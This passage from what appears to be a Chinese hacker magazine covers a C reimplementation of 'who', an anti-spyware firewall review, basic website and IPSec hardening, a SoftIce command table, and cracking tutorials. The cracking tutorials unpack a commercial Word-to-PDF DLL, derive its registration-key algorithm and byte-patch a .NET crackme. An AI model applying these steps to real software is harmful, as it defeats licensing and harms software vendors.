  struct exit_status ut_exit;     /* 登出信息，例如死机等 */

#if __WORDSIZE == 64 && defined __WORDSIZE_COMPAT32
  int32_t ut_session;             /* 会话 ID */
  struct {
    int32_t tv_sec;               /* 秒 */
    int32_t tv_usec;              /* 微秒 */
  } ut_tv;                        /* 时间的结构 */
#else
  long int ut_session;            /* 会话 ID */
  struct timeval ut_tv;           /* 登录时间 */
#endif

  int32_t ut_addr_v6[4];          /* 登录者的主机 */
  char __unused[20];              /* Reserved for future use */
};
```

结构中包含了登录的类型、用户名、主机名、登录时间、登录时的控制台等等！下面再来看一看登录类型的结构：

```c
#define EMPTY         0   /* 没有查询信息的类型 */
#define RUN_LVL       1   /* 系统运行的级别的类型 */
#define BOOT_TIME     2   /* 系统引导的类型 */
#define NEW_TIME      3   /* 系统时间更改的类型 */
#define OLD_TIME      4   /* 正在更改的时间的类型 */
#define INIT_PROCESS  5   /* 初始化进程的类型 */
#define LOGIN_PROCESS 6   /* 正在等待登录进程的类型 */
#define USER_PROCESS  7   /* 已经登录的用户（本文主要用的是这个） */
#define DEAD_PROCESS  8   /* 退出（登出）的类型 */
```

本文主要介绍的是 USER_PROCESS 这一项。如果要记录用户登录的时间的话，当然就要用到时间的函数，也就是 ctime 函数，函数从 /usr/include/time.h 里面可以找到：

```c
extern char *ctime (__const time_t *__timer) __THROW
```

## 编写

编程方面主要的操作还是打开和读取文件，也就是 open 和 read 函数，打开的文件是 /var/run/utmp。在 /usr/include/paths.h 里面有定义，同时也可以查看到各种路径的定义。

下面开始编写简单的程序：

## loffice38栏目

```c
#include<stdio.h>
#include<utmp.h>
#include<unistd.h>
#include<fcntl.h>
#include<time.h>

void Timeformat(long timearg)
{
    char *p;    /* 声明一个指针变量，在后面用来存放时间的地址。 */
    p = ctime(&timearg); /* 格式化时间 */
    printf("%12.12s\n", p + 4); /* ctime 返回的字符串从第四个字符开始 */
}

/* 以上为格式化输出时间 */
void Showmessage(struct utmp *utmparg)
{
    if (utmparg->ut_type != USER_PROCESS) /* 判断登录类型是否是“用户” */
        return;
    printf("灵鸥给各位：give you the who message\n the program written by 灵鸥编写\n");
    printf("%-8.8s", utmparg->ut_name); /* 输出登录的用户名 */
    printf(" ");
    printf("%-8.8s", utmparg->ut_line); /* 输出登录的TTY */
    printf(" ");
    Timeformat(utmparg->ut_time); /* 输出登录的时间 */
}

/* 以上为输出当我们输入 who 命令后输出的信息。 */
int main()
{
    struct utmp pointer;      /* 声明 utmp 结构变量。 */
    int utmpfd;               /* 打开后的 utmp 文件存放在这里。 */
    int re = sizeof(pointer);

    if ((utmpfd = open(UTMP_FILE, O_RDONLY)) == -1) { /* 打开 utmp 文件，前面说过 UTMP_FILE 文件在 paths.h 中有定义 */
        printf("error\n");
        exit(1);
    }

    while (read(utmpfd, &pointer, re) == re) { /* 读取文件中的内容 */
        Showmessage(&pointer); /* 调用 Showmessage 函数 */
    }
    close(utmpfd); /* 关闭 utmp 文件 */
    return 0;
}


```

下面来运行一下我们自己写的 who 程序看一看，如图3所示。

关于 who 程序的编写到这里就结束了，虽然本文没有介绍 w 的编写，但是 w 的编写可以根据上面的代码自己进行修改即可！who 命令虽然简单，但是却可以查看谁在使用这台 Linux，很实用。
**编辑点评：**Linux 下的程序编写不是很多见，但对于安全爱好者来说应该了解其原理，本文的作者为我们详细分析了 who 程序的原理，又用简单的代码实现了此功能，带着大家由浅入深，感觉很是不错。

# “流氓”防火墙

## EQSpyWatch
十一月来了，冬天的脚步近了……让偶想起了一篇小学学过的忘记了题目的课文。小编我天天感冒，虽然每天到黄昏时候又会好。秋天总是给我萧瑟的感觉，令人心情郁闷……走题了，这次的 OFFICE38 继续为广大办公室的 GGMM 准备了一顿免费大餐。可是今年 5 月刚刚出炉的一款安全产品呢，看清楚了，是免费啊！当然我是已经尝过鲜了，嘿嘿，爽啊！什么，你刚刚装了自己的主页吗，还不会防护啊？Elin 教你怎么做网站的初步安全。是初步哦！要想了解更专业更安全的内容，敬请关注每期的《黑客手册》，关注咱“OFFICE38”啊！

**从本文中你可以学到：**

- 一款小巧强大的防火墙的使用

现如今的互联网，除了病毒、木马、后门等传统威胁以外，各种各样的流氓软件已经成为互联网中最大的威胁。可是传统的安全软件并没有将流氓软件列入“病毒”的大范围中，于是各式各样的流氓软件频频入侵用户的系统，造成系统运行缓慢、难以清除、相互排斥等一系列问题。虽然现在很多用户已经认识到流氓软件的危害，但是出于多方面的原因，依然没有遏制住流氓软件的泛滥。所以要想挡住流氓软件的入侵，还是需要用户“一切从自身做起”。

今天为大家推荐一款名为 EQSpyWatch 的系统防护软件，实际上这是一款具有行为监控功能的软件防火墙。软件通过在系统底层对文件、注册表、程序运行进行监控，配合软件内置大量的应用程序规则，可以用于防止间谍软件、流氓软件、木马程序等恶意程序入侵用户的计算机系统。另外，用户完全可以自定义新的监控规则，以便让软件更符合自己的使用习惯，同时开启软件的“自动更新”功能，这样程序就会定期更新软件的问题以及应用程序的相关规则。
EQSpyWatch 安装非常的简单，我们根据安装向导一步步就可以安装完毕。安装完成后，软件会和其它的防火墙一样在系统栏中加载一个程序图标。双击该图标，就会展开程序的操作界面，如图1。从中我们可以看到，EQSpyWatch 的操作界面非常的简单。所以程序在系统底层对文件、注册表、程序运行等进行监控的时候，速度就会更快，并且更加节省系统资源。

点击操作界面中的“规则编辑器”按钮，在弹出的“EQSpyWatch 规则编辑器”窗口中已经内置了大量的相关规则，可以轻松地将间谍软件、流氓软件等拒之门外，如图2。

从图中我们可以看到，软件目前支持很棒小秘书、雅虎助手、U88 财富快车工具条、百度搜霸、3721 上网助手等众多常见的间谍软件和流氓软件。除了内置的规则以外，用户还可以根据实际情况随意地添加新的规则，这样不但可以更好地防范流氓软件的入侵，也可以对很多的木马程序、后门程序起到防范作用。添加的新规则可以根据监控操作分为运行程序、文件操作、注册表访问等。比如现在很多木马程序都喜欢利用系统服务来对服务端程序进行启动，这里我就来创建一条新的监控规则，从而防范木马程序的运行。

首先选择“监控操作分类”中的“注册表访问”这一项，接着点击窗口中的“新建规则”按钮，然后在弹出的“新建规则”窗口进行设置。在“描述”选项中设置规则的描述内容，比如“禁止木马程序启动！”等；接着在“注册表路径”选项中设置需要监控的注册表路径。用户既可以直接输入注册表路径，也可以点击窗口下面的“导入注册表路径”按钮，从弹出的“导入注册表路径”窗口一步步地选择相应的路径，点击“导入”按钮进行导入；由于木马服务端程序的启动项名称并不固定，所以我们用符号“*”来进行设置。关于规则的设置完成以后，选择“提示选择处理方式”选项，接着在“监控信息”和“默认操作”中分别设置为“记录日志”和“拒绝”，如图3。

将刚刚设置的监控规则进行保存，然后我们来运行一个服务端程序看看。当服务端程序运行后，EQSpyWatch 马上弹出一个提示窗口，告知用户服务端程序的操作已经被拦截，请用户选择允许或者拒绝该操作，如图4。

木马服务端程序的正常运行，是木马程序能够发挥作用的关键，而服务端程序归根结底是能够加载到内存运行的程序。所以木马运行后，不论如何进行隐藏时，通过一些进程分析功能都可以将其找出。点击程序操作界面中的“进程管理器”按钮，从弹出的树形进程管理器可以对当前系统中的所有进程一目了然了。从进程窗口的列表中可以看到每个进程的 ID、CPU 使用率、描述、制造它的硬件生产公司等信息。我们可以通过查看进程是否有完整的描述和软件厂商名称来对可疑进程进行分辨，如图5。

从图中我们可以看到，除了 mm.com 这个进程没有这些信息以外，其它的进程都有这些信息，因此接着就需要对这个进程进行重点的检查了。
> 【文章中涉及的 EQSpyWatch 在光盘中有收录】

## 编辑点评：

这是一款今年 5 月诞生的安全防护软件，完全免费使用，并且它的操作界面也是很简单的，很快捷地，没有普通的安全产品那么多麻烦的选项，小编我是已被它折服。软件作者很有黑客共享精神，值得学习，将来中国的软件事业还是前途光明的！这款 EQSpyWatch 推荐给广大办公室的 GGMM。
# 一个最简单普通的入侵流程：

当一个网站存在注入漏洞，我们用工具很轻松地猜解得到管理员帐号和密码，然后找到管理后台就以管理员身份进入了，利用后台的某些功能作进一步的提权。

对于网站管理员，如果自己网站存在着注入漏洞该怎么办？

- 1. 找出出问题的代码，进行修补。如果管理员本身的技术水平不高，则还是很困难的。
- 2. 对于注入漏洞，不熟悉编程的管理员一般还喜欢使用“通用防注入工具”进行限制，但要注意选择版本高些的，有许多防注工具本身还是有问题的，有的很容易被绕过。还要注意安装后要更改原始管理员密码和数据库名。

以上是大家普遍采用的方法，在此再提出几点：

- 1. 隐藏后台。修改管理员后台地址为一个不易猜测的地址，让入侵者得到帐号密码也没地方登录。甚至可以将管理员管理模块不放在 WEB 目录里，另设访问地址。（如 2006 第 4 期本人《为广东互联网星空作一次清道夫》文中所碰到情况）当然你还可以做一个假的登录页面，随便输入什么总是报告密码错误，呵呵！
- 2. 设置个性化的密码算法。大部分网站密码存储采用的是 MD5 的加密算法，我们可以将 MD5 的算法稍作修改，这样得出的结果还是 16 位的密文，用工具跑上几万年也跑不出原文的，呵呵。当然也可以不改 MD5 算法而将在原有基础上进行再加工，比如统一将某字符与某字符进行互换，或者将结果统一加上一个数字等等。
- 3. 用户密码与网页内容分别采用不同的数据库。将用户账号记录在另一数据库里，这样注入也无法猜解。
- 4. 更改表名。如果当你猜得几张表：admin、config、art……等等，你肯定会想 admin 表里存储的就是管理员账号信息，一般大家都会有这样习惯的思维：admin、manage、user 等表就是账号信息表了。我们不妨也设置一个这样的表，然后添入记录 username：admin、password：49ba59abb5e6e057 or 7a57a5a743894a0edc469e80d32c0559f8（123456、admin、admin888 的 md5 值），但此表却不是真实存储管理账号的表（真的表另起一个特别的名字），当入侵者高兴地跑出所谓的账号密码时却无法登录，哈哈，肯定惊讶得很吧！

以上仅是几招雕虫小技，是骗不过高手的，最根本的还是好好学技术，从基础上做好安全防护。

## 编辑点评：

> 正如文章题目所说，这些防御方法还不够成熟，但是作为建站初期的基本防御还是可以的，文章中一些细节的地方也是安全防御应该注意的，安全是一块布，可能某个漏洞的任何细节都不应该被放过。
# 服务器 IPSEC 防御 CC 攻击

花非花 S.T

## 一、CC 简介

最近网上十分流行一种 DDOS 攻击方式，估计大家都知道了吧！那就是 CC 攻击，今天我们来介绍一下如何利用组策略防范 CC 攻击。

CC 攻击的全称是：Challenge Collapsar（CC，拒绝服务攻击），作者是：Fr.Qaker 95。

其攻击方式是基于页面请求的 DDOS 分布式拒绝服务攻击。模拟多个用户不停地访问某个页面直至系统崩溃。CC 攻击需要使用代理，因为通过代理可有效隐藏自己的身份，并绕开所有未做 CC 攻击限制的防火墙。因为基本上所有的防火墙都会检测并发 TCP/IP 连接数目，超过一定数目、一定频率，就会被认为是 Connection Flood。另外使用代理攻击能很好地保持连接，我们发送了数据，代理帮我们转发给对方服务器，我们就可以马上断开，代理还会继续保持着和对方连接。基本原理我这里也不多说了，Fr.Qaker 老哥已经写过文章并介绍得很清楚了。大家不知道的，百度搜一下就有了。我们可以利用 WINDOWS 内置工具 IPSEC 来配置防范，下面讲一下如何利用 IPSEC 来防范 CC 攻击。
## 二、IPSEC 防御——禁止 HTTP 代理

因为 CC 攻击需要使用 HTTP 代理，那么我们禁用 HTTP 代理的话，对于 CC 攻击就是一个严重的干扰了。HTTP 代理的常用端口：80/1080/3128/3127/8000/8080/8081/9080（这里可根据你所知道的 HTTP 代理端口来关闭）。

首先在“开始”——“运行”菜单下输入 gpedit.msc，打开组策略，定位到“计算机配置”——“Windows 设置”——“IP 安全策略”（当然，通过 MMC 来打开 IPSEC 也可以）。然后，再右击“IP 安全策略（以后直接叫 IPSEC）”，在弹出的菜单中选择“创建 IPSEC”，弹出 IPSEC 向导，如图1。

直接“下一步”，到达图2的位置。输入名称和描述性的语句，然后两次“下一步”，再次“下一步”的时候，会有警告对话框，如图3。

不管它，选择“是”，来到如图4。

然后选择“完成”，弹出一个“防范 CC 攻击属性”的对话框（对话框名是刚才输入的名称），如图5。

选择“添加”按钮，一路下一步直到如图6的位置。

再次选择“添加”按钮，如图7。

输入名称和描述语句，并去掉中右方的“使用添加向导”。再选择“添加”按钮，一路下一步直到如图8的位置。

源地址选择“任何 IP 地址”，目标地址选择“我的 IP 地址”，然后选择“协议”选项卡，协议类型选择 TCP，设置 IP 协议端口选择“从此端口”单选框，输入 80（禁止其他端口就填写相应的端口）。下面的就选择“到任意端口”，如图9。

连续两次“确定”就回到了图10的位置。

选择“筛选器操作”选项卡，如图11。

选择“添加”按钮，一路下一步到图12的位置。
GG（小编：注意在将要完成筛选器操作向导的时候一定要勾选编辑属性选项。哈，我是什么属性？）55

选择“阻止”单选框。并可以在“常规”选项卡那输入名称和描述（这里，我输入“阻止”）。按确定，如图13。

选择“阻止”单选框，然后选择“应用”，再两次“确定”。
接着按下一下就行了！至于其他的代理端口，大家也根据这方法添加。应土豆叔（大叔哈哈！）要求，我做了个动画，在 Nohack 动画教室里，大家可以看看。

另外，我们可以关闭 ICMP 响应（只要在选择协议类型那里选择“ICMP”）。也可以禁止一些不必要的响应和禁止一些十分危险的端口：69、135、137、138、139、443、445、3389、4489 等端口的连接（这里有个问题，本人禁止了 135 连接以后，就不能上网了。大家可以测试一下），我们还可以利用防火墙，配置防御 CC 攻击；但是最根本的办法是在编写网页的时候写好防御 CC 攻击的语句，这才是根本。当然 IPSEC + 防火墙配置防御 + 网页代码防御的三重防御可以更加有效地防御 CC 攻击。这样的话，CC 攻击就没有任何效果了！

【文章中作者做的“服务器 IPSEC 防御 CC 攻击”动画收录在光盘的动画教室里，欢迎观看！】

## 编辑点评：

很基础的一篇图文教程，操作性很强。通过组策略我们可以很直观地设置 IP 安全策略，这比在命令行下一条一条地打命令要简单多了，也由此看出组策略的厉害了吧！DDOS 是最常见的攻击方式之一，小编同寝室的老兄以前的主要工作就是应付 DDOS，据他描述利用 DDOS 阻塞网络非常常见，而停止攻击后还需要几个小时的拷贝网线才能通畅……DDOS 害死人啊！！服务器做 DDOS 的防范是非常有必要的，光撤防火墙是不够的，还要手工配置安全策略，双重保护！最后说一句，投稿文章中的标点符号一定要用中文的啊，编辑它们就得一顿饭时间。
# 卷首语

进入 11 月，天气凉了，是该躲到被窝里安心研究技术的季节了，也是我们的《破解》0 起步，在这个时候也画上了圆满的句号。通过几期的系统写作，相信你已经不是什么菜鸟了吧。不等什么，赶快拿出你的屠龙宝典吧——

# 破技巧

# SoftIce 常用命令

在破解中能熟练地利用命令，可以提高破解效率，让你在使用 SoftIce 的时候更加得心应手。

| 命令 | 说明 |
|---|---|
| ? | 在代码窗口中定位当前指令 |
| ? | 计算一个表达式的值 |
| A | 写入汇编代码 |
| ADDR | 在 SOFTICE 中显示或是切换内存区域 |
| ALTKEY | 改变并呼叫出 SoftICE 的热键 |
| ALTSCR | 切换 SoftICE 的视频输出 |
| ANSWER | 自动监视通讯出口及将输出转移到 MODEM |
| BC | 清除一个或多个断点 |
| BD | 使一个或多个断点失效 |
| BE | 使一个或多个断点恢复有效 |
| BH | 在 SoftICE 历史数据中显示或是选择曾经设过的断点 |
| BL | 显示当前所设的断点 |
| BMSG | 在 Windows 的消息上下断点 |
| BPE | 编辑一个已存在的断点 |
| BPINT | 在某个中断向量上下断点 |
| BPIO | 在输入输出端口上下断点 |
| BPM | 在内存单元上下断点 |
| BPR | 在一个内存范围上下断点 |
| BPRW | 在某个 Windows 程序或代码段所在的内存区域上下范围断点 |
| BPT | 以前次的断点为模板，设定新的断点 |
| BPX | 在可执行语句上设定（或清除）断点 |
| BSTAT | 显示某个断点的状态 |
| C | 比较内存中两块区域的内容 |
| CLASS | 显示 Windows 的类的信息 |
| CLS | 清除命令窗口中的字符 |
| CODE | 显示指令码 |
| COLOR | 显示或修改屏幕颜色 |
| CPU | 显示寄存器内容 |
| CSIP | 为所有断点设定一个界限（CS:EIP 在其内）（16 位程序） |

# 破资讯

《软件安全》01期

看雪学院自己的第一期电子杂志，十月六日发布，作为破解的老大哥，看雪的电子杂志自然也有它的独到之处。

- 主办：看雪技术论坛
- 网址：bbs.pediy.com
- 邮件：kanxue@001.cn
- 主编：kanxue
- 策划：Иван Донцов，Quarkte；CCDebugger
- 编辑：Conragon，小虾，Ryosuke，Happytown，北极星2003，linhanshi，forgot，loveboom
- 校对：stuman
- 美工：koolish
- [光盘中有提供]
# 破解 0 起步之终篇

# （算法篇）

从本文您可以学到：
- DLL 的调试方法
- 算法分析的一般方法

通过前面几篇的讲解，大家也都了解了。只要能调试的程序，被破解就是早晚的事。这篇文章主要讲破解时的注册算法，对它做个简单的了解，希望能在破解的时候尽量少花一点时间。

首先我们要做的第一件事就是确定是什么算法。是作者自己设计的，还是利用了密码学中的一些成熟算法。如果是作者自己设计的，那就只好一步一步跟踪下去了。还好大部分这种算法都比较简单。网络上成熟的算法，只要识别出是什么算法就好。一般是通过常量和填充大小来确定算法。这个我们就交给程序去识别吧。常用的工具有 CryptoSearcher 和 Kanal 两种。Kanal 有集成在 PEiD 上的。下面我们就通过两个例子来练习了。

程序是一个 DLL 的插件，把 Word 转换成 PDF 的工具。以前没讲过怎么破解 DLL，也就是顺便选这个让大家了解下。其实大家完全可以把它当成一个 EXE 程序来调试，是一样的。OK，别的不多说，在程序的安装目录下找到这个文件（按各自的安装路径找），先用 PEiD 查壳，显示为 ASProtect 1.23 RC1 — Alexey Solodovnikov。有壳，加了个厉害的壳，如图1。没事，我们先脱了再说。

用 OD 载入，提示说是一个 DLL，要用 LOADDLL 载入，点“是”。

```asm
4005F001 > 60             pushad
// 停在这里
4005F002   E8 03000000    call 1005F00A
4005F007   E9 EB045045    jmp  5562E4E7
1005F00C   55             push ebp
1005F00D   C3             retn
```

直接 F9。不一会儿停在 DLL 入口位置。这个时候按工具栏上的 L 按钮打开记录，可以看到程序在 008D2CD1 上最后一次异常后就载入 DLL，如图2。

```asm
008D3C2D  访问违规：正在写入到 [00000000]
008D2CD1  访问违规：正在写入到 [00000000]
77180000  模块: C:\WINDOWS\WinSxS\x86_Microsoft.Windows.Common-Controls...
```

Ctrl+F2 重来，在调试选项对话框里面的“忽略（传递给程序）以下异常：”下，我们把“INT3 中断”和“非法访问内存”的复选框前面的勾给去掉，然后把“同时忽略以下指定的异常或范围：”前面框中的勾去掉，如图3。

按 F9 开始。停下来后就按 Shift+F9 让它跑起来。大概 25 次 Shift+F9 后到达 008D2CD1 最后一次异常了。不要按 Shift+F9 了。按工具栏上的 M 图标，在属主为 DOC2PDF 的代码段下右键设置内存断点，如图4。下好后，按 Shift+F9 就到 DLL 的入口处。Dump 出来。

保存为 1.dll，这文件并不能用，因为 IAT 和一些 CALL 没修复。这些不管它。先找工具分析下程序里面有些什么算法。用 PEiD 的 Kanal 插件发现有两个算法。一个是 CRC32 的，估计是壳带的校验；还有一个是 MD5 的，这个应该就是程序用的算法了。同时插件还显示了算法开始的位置 100094CD。打开 OD 载入 DLL 后，Ctrl+G 到 100094ED 位置。往上翻几行到 1000947B：

```asm
1000947B /$ 55 push ebp
```

本地调用来自 10009F58、10009F71。知道了这些以后，我们用 OD 去调试 Word 的主程序。不用奇怪，它是 Word 的插件，自然要 Word 去调用它。

载入后先按 F9 让 Word 运行起来。然后再按工具栏上的 E 按钮，可以看到程序调用了那些 DLL。找到 `C:\PROGRA~1\8848Soft\doc2pdf\DOC2PDF.dll` 这一行，双击这行到这个 DLL 代码处。

到上面说的地方下断。10009F58 后面那个就不断了，都靠在一起。点 Save as PDF，马上中断在了刚才下断点的位置，如图5。因为不知输入注册码和用户名的地方，这里就是先在注册表里面找相关键看看，再比较看看是不是注册版的，是就不会跳出注册窗口，不是就跳出注册窗口。这次中断不管它，直接按 F9，等出来注册框后点 Register。

```text
输入用户名：abcdefg
注册码：1111 2222 3333 4444
```

注意这里的注册码有 16 位。MD5 加密后就两种，一个是 16 位的，一个是 32 位的，记下来。点 Register。几个 RETN 后返回 1000D171。

```asm
1000D16C   E8 77020000   call 1000D3E8
1000D171   85C0          test eax, eax
1000D173   74 43         je short 1000D1B8
```

```asm
1000D175   8D45 E8       lea     eax,[ebp-18]
1000D178   B9 10550310   mov     ecx,10035510
1000D17D   50            push    eax
1000D17E   E8 1BECFFFF   call    1000BD9E
1000D183   8B00          mov     eax,[eax]
1000D185   6A 40         push    40
1000D187   50            push    eax
1000D188   68 181A0310   push    10031A18

ASCII "Registration succeed, thank for your registration!"
```

这样看来，我们的算法也就是上面那个 CALL 过去的。在这里下断吧。再来。

一点还是断在 MD5 算法那边。F9，等弹出对话框并输好后，点 Register，断在刚下的断点。F7 进去。

```asm
1000D3E8   B8 A4530210   mov     eax,100253A4
1000D3ED   E8 5A160000   call    1000EA4C
1000D3F2   51            push    ecx
1000D3F3   53            push    ebx
1000D3F4   56            push    esi
1000D3F5   8BF1          mov     esi,ecx
1000D3F7   68 10450310   push    100355C4
1000D3FC   8D4D F0       lea     ecx,[ebp-10]
1000D3FF   E8 B7D20000   call    1001A6BB
1000D404   FF75 08       push    dword ptr [ebp+8]
1000D407   8D45 08       lea     eax,[ebp+8]
1000D40A   33DB          xor     ebx,ebx
1000D40C   8BCE          mov     ecx,esi
1000D40E   50            push    eax
1000D40F   895D FC       mov     [ebp-4],ebx
1000D412   E8 62F5FFFF   call    1000C909
```

这个 CALL 的时候用户名开始进行处理。F7 进去。

```asm
1000C99F   E8 0FFE0000   call    1001AAB3
1000C9A4   6A 42         push    42
1000C9A6   6A 2E         push    2E
1000C9A8   8D4D 0C       lea     ecx,[ebp+C]
1000C9AB   E8 87C20000   call    10018C37
1000C9B0   6A 42         push    42
1000C9B2   6A 20         push    20
1000C9B4   8D4D 0C       lea     ecx,[ebp+C]
1000C9B7   E8 7BC20000   call    10018C37
1000C9BC   8B45 0C       mov     eax,[ebp+C]
1000C9BF   8B40 F8       mov     eax,[eax-8]
```

```asm
1000C9C2   83F8 03       cmp     eax,3
1000C9C5   7D 05         jge     short 1000C9D4
1000C9C7   68 FC160310   push    100316FC ; ASCII "AAA"
1000C9CC   8D4D 06       lea     ecx,[ebp+6]
1000C9CF   E8 09E00000   call    1001A9DD
1000C9D4   8D45 EC       lea     eax,[ebp-14]
1000C9D7   6A 02         push    2
1000C9D9   50            push    eax
1000C9DA   8D4D 0C       lea     ecx,[ebp+C]
1000C9DD   E8 0EC30000   call    10018CF0
1000C9E2   68 F0160310   push    100316F0 ; ASCII "wfwf3fe3"
1000C9E7   56            push    eax
1000C9E8   8D45 F0       lea     eax,[ebp-10]
1000C9EB   C645 FC 02    mov     byte ptr [ebp-4],2
1000C9EF   50            push    eax
1000C9F0   E8 A1DE0000   call    1001A896
```

把用户名前两位的大写放到 wfwf3fe3 前面。用户名处理后直接就到了 MD5 算法的初始 CALL 上，单步走下去直到下面。到这里就是在堆栈检测到加密后的字符串，堆栈里面可以复制前面的东西。

```text
0012E2CC    0001A73A    ASCII "ABwfwf3fe3"
0012E2D0    017739D8    ASCII "b5546e7cfb298470dee5f88cbce8ef5e"
```

接着几个 F8 到下面。

```asm
1000E470   E8 C5920000   call    1001A73A   ; 开始处理 MD5 加密后的字符，取：b5546e7cfb298470dee5f88cbce8ef5e 的前 16 位
1000E475   8D4D 08       lea     ecx,[ebp+8]
1000E478   8B6D FC       mov     [ebp-4], bl
1000E47B   E8 C0D10000   call    1001A64D
1000E480   8B45 0C       mov     eax,[ebp+C]
1000E483   FF30          push    dword ptr [eax]
1000E485   FF75 F0       push    dword ptr [ebp-10]
```

到这里也就算完了。总结程序的注册过程：把输入的用户名取出前面的两位大写，和 wfwf3fe3 拼接在一起，再把连接后的字符串进行 MD5 加密，取加密后的前 16 位，即得到注册码。注册机和详细分析见后面。

## 编辑点评：

分析算法始终是破解中最头痛的事情，难也不是很难，无非就是跟踪分析，主要是麻烦。所以说，学好软件偷懒是学不到东西的。“0 起步”系列文字今天算是圆满收尾了，如果你都认真学的话，恭喜你已经不是菜鸟了。

# 轻松玩转 .NET 程序破解

.net 是 Microsoft 推出的新一代战略框架，也是 Microsoft 未来 10 年的战略规划中重要组成部分。通过短短几年的发展，.net 已经在桌面应用、Web 应用、企业级应用乃至移动应用等开发领域得到了广泛的使用，众多开发人员和专业公司已将 .net 作为首选的开发平台。一个全新的 .net 时代正在越来越清晰地呈现在我们面前。

易学易用的开发工具、多元化语种、高开发效率、统一编程模型、统一运行库，给 .NET 应用开发人员带来了很多惊喜。可是，.net 上最突出的架构特性 MetaData（及相关的 IL 运行机制）在提供了超乎寻常的便利的同时，也带来了一个非常敏感的缺点——.net 程序集可以被非常容易地反编译，几乎是一个一丝不挂的裸体美女，使你强烈地感受到郑钧大哥的那首成名作“我的爱，赤裸裸”。而这个缺点也成了许多重视知识产权保护的 .net 应用开发者心中最大的顾虑之一。本文通过实战的形式研究了 .net 程序的破解分析方法。如此系统而全面的 .net 程序破解介绍，在市面上还是不多见的。

- .net 程序破解器具：主要有三个，.net Reflector、微软的 Ildasm、IDA Pro。
- .net 程序修改工具：所有的 16 进制编辑软件，常用的如 UltraEdit 或 WinHex。
- .net 程序破解首选、最重要、一定要会使用的工具是 .net Reflector。本教程所用的版本为 4.2.43.0，它更新比较频繁，最新版请到以下地址下载：http://www.aisto.com/roeder/dotnet。
- .net 程序要想运行起来，系统必须装有微软的 .net Framework 环境，目前有 1.1 和 2.0 两个版本。所有 .NET 源代码（使用任何语言）被编译为 IL，然后在软件的安装时或者运行时，IL 由即时（JIT）编译器转换为机器码，从而实现了与操作平台的无关性，使其具有跨语言和跨平台的互操作能力。

如图1，有 6 种语言可供切换、选择，它们分别为：IL、C#、Visual Basic、Delphi、MC++、Chrome。你可以选择你熟悉的编程语言。IL 是 Intermediate Language 的缩写，即“中间语言”，又称为 MSIL，可读性差，但修改时要通过它来定位字节码、修改指令，最后通过 16 进制编辑器（UltraEdit 或 WinHex）来达成心愿。微软的 .NET Framework SDK 附带的 MSIL 反汇编程序 Ildasm 只能反汇编为 IL 语言，可读性差，因此破解时不如 .net Reflector 好用。另外，不得不提的是，IDA Pro 也是破解 .net 程序不错的工具。

Ildasm 的使用参见附录 1（附录光盘里有收录），IL 语言中各函数的含义参见附录 2。仔细研读，你就会熟悉 IL 语言，破解起来游刃有余。

```asm
L_001f: ldstr "Crackme"
L_0024: call [System.Windows.Forms]System.Windows.Forms.DialogResult [System.Windows.Forms]System.Windows.Forms.MessageBox::Show(string, string)
L_0029: pop
L_002a: ret
```

光标停在 `L_0000: ldc.i4.s 13` 显示指令 1F，而 13 的 16 进制为 0D。光标停在 `L_0002: stloc.0` 显示指令 0A。

用 Ildasm 查看，更加清晰。注意：“视图”菜单中，务必将“显示字节”打上对号。

## .net 破解第一例 ForUIC

运行程序，如图2。

就是弹出个窗口，说未注册。.net Reflector 载入程序，如图3所示。

目标程序总在最下方，像剥粽子一样地层层剥开。

注意：其中，References 不是我们关心的，不必展开。

双击 Main 程序，在右边可以看到代码，我选的是 VB，如图4：

你若稍微懂一点编程，很容易看懂。程序进行了一个比较，13 和 23 比，不相等，因此永远弹出注册失败。因此，有 3 种改法：

- 1. 13 改为 23
- 2. 23 改为 13
- 3. num1 不等于 23，不相等则跳，bne 改为 beq

然后，切换到 IL 语言，代码如下：

```asm
.method public hidebysig static void Main() cil managed
{
  .entrypoint
  .maxstack 2
  .locals init (
    [0] int32 num1)
  L_0000: ldc.i4.s 13
  L_0002: stloc.0
  L_0003: ldloc.0
  L_0004: ldc.i4.s 23
  L_0006: bne.un.s L_001a
  L_0008: ldstr "Registrato"
  L_000d: ldstr "Crackme"
  L_0012: call [System.Windows.Forms]System.Windows.Forms.DialogResult [System.Windows.Forms]System.Windows.Forms.MessageBox::Show(string, string)
  L_0017: pop
  L_0018: br.s L_002a
  L_001a: ldstr "Devi registrarmi! :("
}
```

```asm
.method public hidebysig static void Main() cil managed
// SIG: 00 00 01
{
  .entrypoint
  // 方法在 RVA 0x2050 处开始
  // 代码大小 43 (0x2B)
  .maxstack 2
  .locals init (int32 V_0)
  IL_0000: /* 1F 0D */ ldc.i4.s 13
  IL_0002: /* 0A */ stloc.0
  IL_0003: /* 06 */ ldloc.0
  IL_0004: /* 1F 17 */ ldc.i4.s 23
  IL_0006: /* 33 12 */ bne.un.s IL_001a
  IL_0008: /* 72 (70)000001 */ ldstr "Registrato"
  IL_000d: /* 72 (70)000019 */ ldstr "Crackme"
  IL_0012: /* 28 (0A)00000E */ call valuetype [System.Windows.Forms]System.Windows.Forms.DialogResult [System.Windows.Forms]System.Windows.Forms.MessageBox::Show(string, string)
  IL_0017: /* 26 */ pop
  IL_0018: /* 2B 10 */ br.s IL_002a
  IL_001a: /* 72 (70)000029 */ ldstr "Devi registrarmi! :("
  IL_001f: /* 72 (70)000019 */ ldstr "Crackme"
  IL_0024: /* 28 (0A)00000E */ call valuetype [System.Windows.Forms]System.Windows.Forms.DialogResult [System.Windows.Forms]System.Windows.Forms.MessageBox::Show(string, string)
  IL_0029: /* 26 */ pop
  IL_002a: /* 2A */ ret
} // end of method crackme::Main
```

用 UltraEdit 打开程序，搜索 `1F0D0A`，搜到后，将其中的 `0D`，即 13，改为 `17`，即 23 即可。

运行修改后的程序，注册成功，如图5。

我们在此尝试了第一种改法，其余两种改法作为作业布置给读者，希望读者认真完成。

## .net 破解第二例 Dot_NET_ReverselMe_1.exe

这个比较简单，不详细写了。.net Reflector 载入程序，如图6。

注意：其中，Resources 和 References 不是我们关心的，不必展开。

btnCheck_Click 是关键所在，双击。

```vb
Private Sub btnCheck_Click(ByVal sender As Object, ByVal e As EventArgs)
    If (Not Me.txtSerial.Text Is "Dot_NET_Reversing_101_Is_Fun_For_All") Then
        MessageBox.Show("Wrong !", "Error !!!!!")
    Else
        MessageBox.Show("Right! Now onto the next step in Reversing, Byte-Patching", "Good Work !")
    End If
End Sub
```

很容易可以看出，`Dot_NET_Reversing_101_Is_Fun_For_All` 就是注册码，固定的明码。

```csharp
string text3 = string.Concat(new object[] { "", num2, num3, "" });
if (text3.Equals(text2))
{
